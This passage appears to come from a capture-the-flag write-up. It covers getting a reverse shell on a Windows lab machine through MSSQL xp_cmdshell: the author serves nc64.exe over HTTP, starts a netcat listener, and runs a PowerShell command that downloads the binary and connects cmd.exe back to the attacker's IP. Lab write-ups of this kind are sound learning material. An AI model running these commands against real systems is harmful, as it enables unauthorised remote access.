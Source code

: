 Then I tried several one-liner reverse shells for powershell, but didn't have anyluck. So, I reverted back to the `netcat` binary ([nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)) to spin up a reverse shell.

To host this file to the box: 
```sh
python3 -m http.server
```

Additionally, start `nc` locally for the reverse shell: 
```sh
nc -lvnp 1337
```

Download the binary and run: 

```ps
xp_cmdshell "powershell.exe cd c:\Users\Public; wget http://10.10.14.232:8000/nc64.exe -outfile nc64.exe; .\nc64.exe -e cmd.exe 10.10.14.232 1337"
```

![rs](images/rs.png#center)
